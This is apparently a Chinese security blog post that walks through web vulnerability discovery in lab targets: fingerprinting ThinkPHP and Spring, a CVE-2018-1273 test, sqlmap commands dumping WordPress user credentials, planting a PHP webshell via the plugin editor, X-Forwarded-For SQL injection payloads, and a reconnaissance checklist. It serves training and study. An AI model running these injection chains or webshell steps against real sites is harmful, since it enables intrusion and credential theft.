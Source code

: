 ```yaml
---
title: "WEB漏洞探针" # 文章标题.
date: 2023-04-16
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# WEB漏洞探针

![WEB漏洞发现](./WEB漏洞发现.png)

## 相关概念

### 已知CMS

如常见的 dedecms，discuz，wordpress 等源码结构，这种一般采用非框架类开发，但也有少部分采用的是框架类开发，针对此类源码程序的安全检测，我们要利用公开的漏洞进行测试，如不存在可采用白盒代码审计自行挖掘。

### 开发框架

如常见的 thinkphp，spring，flask 等开发的源码程序，这种源码程序正常的安全测试思路：

先获取对应的开发框架信息(名字，版本)，通过公开的框架类安全问题进行测试，如不存在可采用白盒代码审计自行挖掘。

### 未知CMS

如常见的企业或个人内部程序源码，也可以是某 CMS 二次开发的源码结构，针对此类的源码程序测试思路：

能识别二次开发就按已知 CMS 思路进行，不能确定二次开发的话可以采用常规综合类扫描工具或脚本进行探针，也可以采用人工探针（功能点，参数，盲猜），同样在有源码的情况下也可以进行代码审计自行挖掘。

## 实例

### 框架类

#### ThinkPHP

通过`fofa`找到ThinkPHP的开发的程序一般含有的路径`"index/login/login"`，一般情况下，只要有这种url地址的都是ThinkPHP开发的，得到ThinkPHP的版本，就可以去网上寻找相应的漏洞，进行相应的测试。

![漏洞发现](./漏洞发现.png)

#### Spring

对注册的数据进行抓包。

![Spring漏洞题目](./Spring漏洞题目.png)

在网上寻找的相应的Payload。（CVE-2018-1273）

![SpringPayload](./SpringPayload.png)

成功。

![Spring成功](./Spring成功.png)

### 已知CMS

#### WordPress

![题目](./WordPress漏洞利用/题目.png)

发现是WordPress，使用Wpscan进行扫描，发现有一个插件的SQL注入漏洞。这个插件是Comment Rating。

```wpscan
wpscan --url http://ip:port/ --enumerate vp,vt,tt,u --api-token=自己在wpscan获得的免费的API-Token
```

![wpscan扫描](./WordPress漏洞利用/wpscan扫描.png)

在网上寻找到相应的漏洞地址。

![找到漏洞的URL](./WordPress漏洞利用/找到漏洞的URL.png)

自己使用SQLMap构造相应的URL进行注入。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" --dbs # 获取数据库
```

得到的数据库有`information_schema`，这个数据库是系统的数据库。`test`数据库是这个网站的数据库，得到test数据库下面的表。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" --tables
```

发现其中有一个`wp_users`这个表，这个表是用户表，从表中拿到相应的列。

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" -T "wp_users" --columns
```

拿到列的数据，发现有`user_login`，`user_pass`这两个字段，分别是用户名和密码，爆出这两个字段的数据

```sql
sqlmap -u "http://124.70.71.251:45610/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a&imgIndex=1_14_" -D "test" -T "wp_users" -C "user_login,user_pass" --dump
```

拿到数据，账号是admin，密码是12qwaszx 

![sqlmap拿到数据](./WordPress漏洞利用/sqlmap拿到数据.png)

登录后台，一般情况下WordPress的后台是`http://ip:port/wp-login.php`

![登录后台](./WordPress漏洞利用/登录后台.png)

因为这个是插件的漏洞，所以我们在插件中编写PHP一句话马，需要注意的是，因为WordPress中的插件非常多，所以需要我们在对应的插件中编写相应的PHP马。

![在插件中写马](./WordPress漏洞利用/在插件中写马.png)

PHP马的连接地址

```url
http://124.70.71.251:45610/wp-admin/plugin-editor.php?file=akismet/akismet.php&a=te&scrollto=0
```

使用蚁剑连接。

![蚁剑连接](./WordPress漏洞利用/蚁剑连接.png)

拿到相应的flag，成功。

![拿到flag](./WordPress漏洞利用/拿到flag.png)

### 未知CMS代码审计

#### 非框架类

![进入靶场](./代码审计/进入靶场.png)

通过分析，加载对应网站的源码，分析出执行的SQL语句。

![寻找漏洞](./代码审计/寻找漏洞.png)

通过全局查找，找到对应的包含这个SQL语句的代码。

![找到对应的代码](./代码审计/找到对应的代码.png)

![找到相应的函数](./代码审计/找到相应的函数.png)

发现这个函数接收了一个变量，这个变量是`$ip`，找到这个函数是在哪里进行调用的。

![找到函数调用](./代码审计/找到函数调用.png)

发现了`getIP()`这个函数，在找到`getIP()`的实现。

![找到接收的数据](./代码审计/找到接收的数据.png)

发现这个是接收的参数是`X-FORWARDED-FOR`，我们可以根据这个在HTTP头中写注入语句，对网站刷新，拿到数据包，在数据包中写入下面的数据。

```sql
x-forwarded-for: 8.8.8.8' order by 5# # 判断数据库有多少列
x-forwarded-for: 8.8.8.8' union select 1,2,3,4,5# # 判断显示
x-forwarded-for: 8.8.8.8' union select 1,database(),3,user(),5# # 爆数据
```

通过上面的方式注入成功。

![成功](./代码审计/成功.png)

### 未知CMS

#### 框架类

非框架类，人工。

思路：

1. 查找：域名/rebots.txt文件

2. 查看对应CMS的版本信息

   ```
   /data/或admin/ver.txt
   ```

3. 访问`/dede`（管理员页面）尝试弱口令

4. 爆后台路径，查看数据库账号密码

   ```
   /data/mysql_ error_ _trace.inc
   ```

5. 扫描端口（888和8888端口可能会存在宝塔的漏洞）登录：ip:888/pma

6. 直接访问ip获得备份文件，网站的压缩文件。或者以前的文件。

以上思路没有先后顺序，是一般情况下的
